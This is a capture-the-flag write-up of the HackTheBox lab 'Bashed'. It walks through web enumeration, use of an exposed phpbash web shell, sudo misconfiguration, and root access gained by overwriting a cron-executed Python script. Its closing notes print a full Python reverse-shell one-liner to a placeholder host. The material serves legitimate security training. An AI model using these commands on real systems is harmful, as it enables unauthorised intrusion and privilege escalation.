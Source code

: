 ```yaml
---
title: "Bashed HTB"
date: 2021-08-20T17:30:30
categories:
  - study
tags:
- Linux
- File Misconfiguration
classes: wide
---
```

Bashed is an easy rated box released in 2017 on HackTheBox. HTB's writeup synopsis is:

>*"Bashed is a fairly easy machine which focuses mainly on fuzzing and locating important files. As 
basic access to the crontab is restricted"*

Find it [here.][htbboxlink]

[htbboxlink]: https://app.hackthebox.eu/machines/Bashed

<h2> Enumeration</h2>
**Nmap scan results:**

```
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

<h4>What is the scan telling us?</h4>

- Port 80 is open running Apache 2.4.18 on Ubuntu.
- It is the only open port, meaning everything must be done web based.
- We see a user named Arrexel.

**Gobuster:**
```
/images (Status: 301)
/uploads (Status: 301)
/php (Status: 301)
/css (Status: 301)
/dev (Status: 301)
/js (Status: 301)
/config.php (Status: 200)
/fonts (Status: 301)
/server-status (Status: 403)
```
Navigating to the website we see reference to phpbash developed by Arrexel, according to the [github page](https://github.com/Arrexel/phpbash) it is:

>*"a standalone, semi-interactive web shell. It's main purpose is to assist in penetration tests where traditional reverse shells are not possible. The design is based on the default Kali Linux terminal colors, so pentesters should feel right at home."*

The github page states that it requires shell_exec php function to be enabled, and it can be found on /phpbash.php.


<h2>Foothold</h2>

We look around at the gobuster results and when we navigate to /dev/ we see an index of /dev/ and we see a *phpbash.php* file. We click on it to navigate to /dev/phpbash.php and we see a web shell where we are www-data, from here we navigate to Arrexel's home directory and find the user flag.

```
www-data@bashed
:/home/arrexel# ls

user.txt
```

<h2>Privilege Escalation</h2>

Running `sudo -l` we see:
```
User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```
that www-data can run commands as the user scriptmanager which has nopasswd ALL. In the # directory we see that there is an unusual folder called scripts owned by script manager. www-data has no perms to view the contents. But we can use `sudo -u scriptmanager chmod 777 -R scripts` to modify our www-data permission as scriptmanager to allow us to cd into the directory. We now have a look inside:

```
www-data@bashed
:/scripts# ls -alh

total 16K
drwxrwxrwx 2 scriptmanager scriptmanager 4.0K Dec 4 2017 .
drwxr-xr-x 23 root root 4.0K Dec 4 2017 ..
-rwxrwxrwx 1 scriptmanager scriptmanager 58 Dec 4 2017 test.py
-rw-r--r-- 1 root root 12 Sep 21 09:23 test.txt
```

Inside we see 2 files, test.txt and test.py, inside the test.txt file we see the contents: testing 123! This file is also only writeable by root.

`cat test.py` we see the following contents: 

```python
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

It seems that test.py writes to text.txt, and it must do this as a cron job as only root has read/write on test.txt. From here we can replace the contents of test.py to write the contents of `/root/root.txt` to a file in this directory called `root1.txt`.

```bash
www-data@bashed
:/scripts# echo "import os" > test.py

www-data@bashed
:/scripts# cat test.py

import os
www-data@bashed
:/scripts# echo "os.system('cat /root/root.txt > root1.txt')" >> test.py

www-data@bashed
:/scripts# cat test.py

import os
os.system('cat /root/root.txt > root1.txt')
```

> Python sidenote: import OS lets us use os.system to *execute the command (a string) in a subshell.*


Wait for 1 minute and we obtain the root flag!

```bash
www-data@bashed
:/scripts# ls

root1.txt
test.py
test.txt
www-data@bashed
:/scripts# cat root1.txt
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

<h4>For next time:</h4>

- Understand chmod permissions more, and the concept of being able to execute commands as another user from another user.
- See if there are any weird directories in the home directory.
- When echoing something into a file, > means everything in the file will be deleted. >> means contents will be appended to the end of the file.
- Make sure to not use multiple pairs of double quote marks, it confuses the entire thing. 
- It is possible to setup a python reverse shell `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOURIP",YOURPORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`and catch it in NC listener. If I did this I could have ran `sudo -u scriptmanager /bin/bash` to bypass the need to `ls` and `chmod` by just opening a scriptmanager shell. 
